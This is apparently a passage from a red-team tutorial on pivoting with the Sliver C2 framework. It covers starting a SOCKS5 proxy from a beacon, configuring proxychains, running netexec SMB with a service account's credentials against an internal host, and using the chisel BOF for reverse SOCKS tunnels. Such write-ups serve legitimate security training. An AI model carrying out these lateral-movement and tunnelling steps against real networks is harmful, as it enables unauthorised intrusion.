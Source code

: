 So we can just enter from within a session, socks5 start and that's it. of course, do make sure that your proxychains4 are setup correctly.
To specify the port for the socks5, we can do : 

```bash
sliver (http-beacon) > socks5 start -P 1080

[*] Started SOCKS5 127.0.0.1 1080  
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol
```

By default, sliver is run socks5 on port 1081, should you not specify the port. using the command above, your /etc/proxychains4.conf or /etc/pproxychains.conf file should be looking like the following at the very bottom of the file, at least the IP and port part of things

```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5 127.0.0.1 1080
```

Now by prefixing our command from our attacker machine with proxychains4, we should be able to execute the command against a target that only our first compromised (eg: SRV01) can see, which is not accessible to our attacker machine, that second machine is now with our range via proxy.

```bash
$ proxychains4 netexec smb 172.16.1.12 -u svc_sql -p 'ohmyohmy'
```

When it comes to protocols that have graphics, like running a RDP session from our attacker machine or VNC, it is recommended to use chisel instead as SOCKS5 as "⚠️  In-band SOCKS proxies can be a little unstable depending on protocol" if you noticed the warning while startin socks5.

I actually tried to rely on SOCKS5 for a VNC connection, and i only got a black screen :)

## Chisel
BOF can be very useful,for example, using chisel BOF, we do not need to upload a chisel client on the target, we could just run chisel as a client from the same session we got.

We can get chisel from armory like so, armory install chisel. let's check out the help on chisel

```bash
[server] sliver > chisel

[!] Please select a session or beacon via `use`

[server] sliver > help chisel

Usage:
'client': start chisel client in process
'server': start chisel server in process
'list': list running tasks in process
'stop': stop a task identified by taskId

Examples:
chisel client 1.2.3.4:80 R:socks
chisel server -p 8000 --socks5

Usage:
======
  chisel [flags] [arguments...]

Args:
=====
  arguments  string list    arguments (default: [])
```